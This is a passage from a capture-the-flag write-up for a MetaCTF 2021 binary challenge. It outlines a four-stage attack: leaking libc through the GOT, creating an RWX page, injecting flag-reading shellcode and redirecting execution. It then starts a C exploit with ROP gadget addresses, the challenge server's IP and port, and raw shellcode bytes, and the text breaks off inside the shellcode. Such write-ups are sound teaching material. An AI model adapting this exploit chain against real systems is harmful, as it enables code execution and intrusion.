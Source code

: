 ```assembly
DB BYTE "flag.txt", 0
```

That's it. So in summary there are four steps to take

- Stage 1: leak a pointer to libc by dumping a ```GOT``` entry
- Stage 2: create a ```RWX page``` for the shellcode
- Stage 3: inject shellcode to open, read and write the flag-file
- Stage 4: set instruction pointer to start of shellcode

## Putting it all together

This time I decided to use [cpwntools](https://github.com/nequ4tion/cpwntools) instead of regular pwntools :)

```c
/* Exploit for the 'An attempt was made' Challenge (MetaCTF 2021) */

// libc Headers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <inttypes.h>
#include <fcntl.h>

// cpwntools Headers
#include <cpwn.h>
#include <cpwn/networking/tcp/tcp.h>

/* --- Definition of Constants --- */

#define REMOTE_IP  "3.83.44.76"
#define REMOTE_PORT 3030

#define WRITE_GOT       0x0000000000404028
#define WRITE_GLIBC     0x000000000061cda0 

#define POP_RBX_RBP_R12 0x00000000004013f2
#define MOV_RSI_RBX     0x00000000004013c0
#define CALL_WRITE      0x0000000000401441
#define REPLAY          0x0000000000401415     

#define POP_RDI         0x000000000008ff1d
#define POP_RDX         0x000000000008ef1b

#define MPROT_SYSCALL   0x0000000000626150
#define READ_SYSCALL    0x000000000061cd00

#define FRAME_OFFSET 32
#define N0           FRAME_OFFSET + 128 + 1
#define N1           FRAME_OFFSET + 224 + 1

#define COLOR_DFL   "\e[39m"
#define COLOR_RED   "\e[31m"
#define COLOR_GREEN "\e[32m"

const uint8_t shellcode[] = {

    "\xeb\x28"                      // jmp short trampoline
    "\x5f"                          // pop rdi
    "\x48\x31\xf6"                  // xor rsi, rsi
    "\xb8\x02\x00\x00\x00"          // mov eax, 0x02
    "\x0f\x05"                      // syscall
```
